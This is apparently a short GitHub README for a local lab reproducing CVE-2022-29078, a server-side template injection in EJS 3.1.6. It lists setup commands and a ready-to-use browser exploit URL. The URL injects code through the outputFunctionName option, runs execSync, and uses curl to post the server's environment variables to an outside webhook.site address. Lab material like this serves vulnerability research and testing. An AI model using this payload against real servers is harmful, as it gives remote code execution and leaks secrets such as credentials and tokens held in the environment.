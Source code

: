 # CVE-2022-29078
vuln ejs 3.1.6

## Setup
```
cd CVE-2022-29078
make
make run
```
## Usage
```
http://127.0.0.1:8080/
```
## Exploit
### In browser
```
http://127.0.0.1:8080/page?id=2&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl -s -X POST --data-urlencode "message=$(env)" https://webhook.site/808ad953-5801-4136-8e0e-f4d45e876c90');s
```

# Reference
https://eslam.io/posts/ejs-server-side-template-injection-rce/
https://github.com/Olusamimaths/templating-with-ejs

